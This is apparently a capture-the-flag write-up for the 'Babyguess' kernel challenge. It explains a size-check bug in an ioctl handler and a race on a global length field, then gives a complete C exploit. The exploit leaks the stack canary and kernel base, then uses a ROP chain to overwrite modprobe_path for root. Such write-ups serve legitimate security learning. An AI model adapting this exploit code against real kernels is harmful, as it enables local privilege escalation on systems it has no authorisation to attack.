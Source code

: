 # Babyguess

*race without UFFD*	*modprobe_path*	*stack overflow*	*socket-based*



## Vulnerability

​	Reverse enginerring the kernel module file takes quite a lot of work. The kernel module implemented a new network address family with a new protocol. We interact with it through socket operations, almost identical to dev files.

​	There are two main abnormalities in the implementation. One result to kernel stack overflow and another to a race to help to leak kernel values.

### kernel stack overflow & leak

 In the `ioctl` function,

<img src="./pic/2021-11-24 09-58-27 的屏幕截图.png" alt="2021-11-24 09-58-27 的屏幕截图" style="zoom:50%;" />

In the two comparing subcommand, the comparing size was checked, but actually not as intended. In subcmd `0x1337`, the size to copy is checked, but the compare operation uses the original size from user. In subcmd `0x1338`, the compare operation size is checked, but the copy operation uses the original size from user. 

​	The first may result to stack values leaking if we have control to the global variable `s1`, and the second clearly result to a stack overflow. So the priciple of exploitation is simple, we leak the stack canary and leak the kernel load address, then control the RIP by stack overflow to do kernel rop or modify modprobe_path.

​	Also, in subcmd `0x1338`, we can easily leak the random bytes sequence `magic_key` by increasing the compare size one by one and guess the corresponding value from 0 to 0xff.



### leak with help of race

​	The global variable `s1`  was set here

<img src="pic/2021-11-24 10-12-24 的屏幕截图.png" alt="2021-11-24 10-12-24 的屏幕截图" style="zoom:50%;" />

​	It first copies a string from user of length stored in `dev_info`, then XOR it with `magic_key`. The `dev_info` is also controllable by user

<img src="pic/2021-11-24 10-18-45 的屏幕截图.png" alt="2021-11-24 10-18-45 的屏幕截图" style="zoom:50%;" />

​	Here is the second abnormality. The global variable `dev_info` is first changed and then checked. Chances are that the `set_s1_string` copied a string larger than 0x100 before the check happens, the the return value from it will tell us if this happens.


## Exploitation

From top level we

1. leak the random string `magic_key`
2. start a thread to overwrite `dev_info` to 0x200 in an infinite loop
3. increase the length of `s1` string one byte by one byte and leak kernel stack value using compare. Read stack canary and kernel load address from leak
4. find gadgets to change *modprobe_path*



​	The full exp is as follows

```c
#include <sys/ioctl.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdio.h>
#include <string.h>
#include <pthread.h>
#include <signal.h>
#include <stdlib.h>

#include "kernelpwn.h"

#define MODPROBPATH 0x165ECC0
#define POPRDI 0x8cbc0
#define POPRSI 0x33a7de
#define MOVQPTRRDIRSI 0x1f50d6
#define SWAPGS 0xC00A34+0x16


cpu_state cpustate;
int socket_fd;
char magic_key[0x100];
char stack[0x100];
unsigned long stack_canary;
unsigned long kernel_base;
int flag_done;

typedef struct user_arg{
    size_t subcmd;
    size_t size;
    void* ptr;
}user_arg;


int change_s1_len(unsigned long len){
    if(ioctl(socket_fd, 0x13371001, len)) ErrExit("[-] change_s1_len() failed");
}

long set_s1_string(char* buf){
    return setsockopt(socket_fd, 0, 0xdeadbeef, buf, 0);
}

long cmp_magic_key(char* buf, long size){
    user_arg arg;
    arg.subcmd = 0x1338;
    arg.size = size;
    arg.ptr = buf;
    long ret = ioctl(socket_fd, 0x13371002, &arg);
    if(ret == 0xFFFFFFEA) ErrExit("[-] cmp_magic_key() failed");
    if(ret == size){
        return 1;
    }else{
        return 0;
    }
}

long cmp_s1_string(char* buf, long size){
    user_arg arg;
    arg.subcmd = 0x1337;
    arg.size = size;
    arg.ptr = buf;
    long ret = ioctl(socket_fd, 0x13371002, &arg);
    if(ret == 0xFFFFFFEA) ErrExit("[-] cmp_s1_string() failed");
    if(ret == size){
        return 1;
    }else{
        return 0;
    }
}

void bruteforece_magic_key(){
    memset(magic_key, 0, 0x100);
    puts("[*] recovering key...");
    for(int i=0;i<0x100;i++){
        for(int j=0;j<=0xff;j++){
            if(cmp_magic_key(magic_key, i+1)) break;
            magic_key[i] = j;
        }
    }
    puts("[*] magic key recoverd");
}

void* overwrite_s1_len(void* arg){
    while(1){
        if(flag_done) hang();
        change_s1_len(0x200);
    }
    puts("[-] should not reach");
}

int leak_stack(){
    puts("[*] starting race thread");
    pthread_t race;
    flag_done = 0;
    pthread_create(&race, NULL, overwrite_s1_len, NULL);
    sleep(1);
    puts("[*] leaking kernel stack...");
    char buf[0x200];
    for(int i=0x100;i<0x100+8*4;i++){
        for(int j=0;j<=0xff;j++){
            memset(buf, 0, 0x100);
            buf[i] = j;
            while(1){if(set_s1_string(buf) == 0x200) break;}
            memcpy(buf, magic_key, 0x100);
            if(cmp_s1_string(buf, i+1)){
                printf("[*] %d bytes leaked\n", i-0x100+1);
                break;
            }
        }
    }
    unsigned long* p;
    p = (unsigned long*)&buf[0x100];
    for(int i=0;i<20;i++){
        printf("stack[%d]: 0x%lx\n", i, p[i]);
    }
    flag_done = 1;
    stack_canary = p[0];
    kernel_base = p[2] - 0x902B1D;
    printf("[*] stack canary: 0x%lx\n[*] kernel load @ 0x%lx\n", stack_canary, kernel_base);
}

int main(){
    save_state(cpustate);
    no_iobuffer();
    socket_fd = socket(15, 0, 0);
    bruteforece_magic_key();

    // set s1 = magic_key
    change_s1_len(0x100);
    char buf[0x100];
    memset(buf, 0, 0x100);
    set_s1_string(buf);

    leak_stack();

    preprare_modprobepath();
    char rop_chain[0x200];
    memset(rop_chain, 0xdb, 0x100);
    unsigned long* rop = (unsigned long*)&rop_chain[0x100];
    int i=0;
    rop[i++] = stack_canary;
    rop[i++] = 0;
    rop[i++] = kernel_base + POPRDI;
    rop[i++] = kernel_base + MODPROBPATH;
    rop[i++] = kernel_base + POPRSI;
    rop[i++] = 0x0000632f706d742f;
    rop[i++] = kernel_base + MOVQPTRRDIRSI;
    rop[i++] = kernel_base + SWAPGS;
    rop[i++] = (unsigned long)promt_root_shell;
    rop[i++] = cpustate.cs;
    rop[i++] = cpustate.rflag;
    rop[i++] = cpustate.sp;
    rop[i++] = cpustate.ss;

    cmp_magic_key(rop_chain, 0x150);

    // hang();
    return 0;
}
```

No detail explain needed. Something do need to be mentioned

1. leaking too many bytes from the kernel stack is impossible yet of no use, for the stack frame of `ioctl` we can control is of length 0x100+8*3, and the above stack frame varies each time we guess
2. in my case the `SWAPGS_RESTORE` is nessesary for when the kernel crashes, it just hanged execution
3. the `flag_done` and `hang()` in the race thread function is set to make debugging easier